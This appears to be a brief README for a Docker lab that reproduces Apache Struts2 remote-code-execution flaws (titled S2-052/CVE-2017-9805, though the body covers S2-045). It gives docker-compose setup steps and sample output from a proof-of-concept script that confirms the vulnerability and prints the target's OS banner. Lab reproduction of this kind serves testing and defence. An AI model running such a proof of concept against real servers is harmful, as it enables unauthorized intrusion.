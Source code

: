 ##S2-052（CVE-2017-9805）

struts2 045 
https://struts.apache.org/docs/security-bulletins.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


##POC
```
执行测试
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```